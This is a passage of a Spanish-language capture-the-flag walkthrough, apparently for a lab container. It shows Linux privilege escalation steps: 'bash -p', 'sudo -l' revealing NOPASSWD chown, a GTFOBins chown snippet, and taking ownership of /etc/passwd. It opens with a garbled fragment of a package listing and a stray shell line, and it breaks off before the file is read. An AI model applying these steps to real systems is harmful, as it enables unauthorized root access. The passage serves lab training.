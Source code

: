 ```
======-=========================================================================
=======
ii  adduser                       3.137ubuntu1                            all   
       add and remove users and groups
ii  apache2                       2.4.58-1ubuntu8.1                       amd64 
       Apache HTTP Server
ii  apache2-bin                   2.4.58-1ubuntu8.1                       amd64 
       Apache HTTP Server (modules and other binary files)
ii  apache2-data                  2.4.58-1ubuntu8.1                       all   
       Apache HTTP Server (common files)
ii  apache2-utils                 2.4.58-1ubuntu8.1                       amd64 
       Apache HTTP Server (utility programs for web servers)
ii  apt                           2.7.14build2                            amd64 
       commandline package manager
ii  base-files                    13ubuntu10                              amd64 
       Debian base system miscellaneous files
ii  base-passwd                   3.6.3build1                             amd64 
!/bin/sh
```
Y como podemos observar, hemos cambiado de usuario de nuevo y mediante otro "bash -p" nos quedaria asi:
```
$ whoami
gladys

$ bash -p

gladys@2f0c6287c77b:/$
```
Momento de probar por tercera vez, con otro "sudo -l" a ver si hay suerte y esta vez vemos que nos devuelve lo siguiente:
```
gladys@2f0c6287c77b:/$ sudo -l

Matching Defaults entries for gladys on 2f0c6287c77b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 2f0c6287c77b:
    (root) NOPASSWD: /usr/bin/chown
    
gladys@2f0c6287c77b:/$
```
De nuevo, buscaremos bien en "https://gtfobins.github.io", o en mi caso otra vez, en "searchbins":
```
LFILE=file_to_change
sudo chown $(id -un):$(id -gn) $LFILE
```
Vale, ahora vamos a cambiar el dueño del archivo "/etc/passwd" con el comando:
```
sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd
```
Vemos que ha cambiado de "root" a "gladys":
```
ANTES:
gladys@2f0c6287c77b:/$ ls -l /etc/passwd
-rw-r--r-- 1 root root 1292 Apr 28 21:08 /etc/passwd

DESPUES:
gladys@2f0c6287c77b:/$ ls -l /etc/passwd
-rw-r--r-- 1 gladys gladys 1292 Apr 28 21:08 /etc/passwd
```
Ahora hacemos un "cat /etc/passwd" y vemos lo siguiente:
```
```